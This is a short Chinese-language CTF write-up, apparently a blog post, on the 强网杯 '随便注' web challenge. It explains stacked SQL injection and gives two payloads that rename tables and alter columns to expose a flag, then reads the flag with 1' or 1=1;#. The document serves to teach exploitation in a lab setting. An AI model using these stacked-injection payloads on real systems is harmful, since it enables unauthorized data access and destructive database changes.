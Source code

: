 ```yaml
---
title: BuuWeb1
date: 2020-10-28 11:02:50
cover: https://img.buuoj.cn/buugirl/img.php
tags:
	- CTF
	- WEB
categories:
	- CTF解题
	- Web安全
---
```




# 强网杯随便注

[截屏2020-10-28 上午11.24.27]

这题显然是存在sql注入点的。主要考点是**堆叠注入**。然而堆叠注入本身的意思就只是能连续执行sql语句而已。

以下记录一些解题过程中用到的东西。

desc [表名]可以查看表结构 (数字开头的表名需要加反引号)

show columns from [表名] （常用show databases，show tables，第一次见这个）

rename tables [表名1] to [表名2] 修改表名



## 爆表

[截屏2020-11-09 下午5.21.37]

## desc查看表结构

1919810931114514表结构

[截屏2020-11-09 下午5.25.06]

words表结构

[截屏2020-11-09 下午5.27.35]

由于没有select可以用，所以用个神奇的操作，把flag所在表的名字改成words，并在flag所在表中增加一个字段id。

payload：

```mysql
1’;rename table words to n0p3;rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#
```

```mysql
1‘;rename tables `words` to `n0p3`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);
```

然后 1' or 1=1;#读flag

[截屏2020-10-28 上午11.17.14]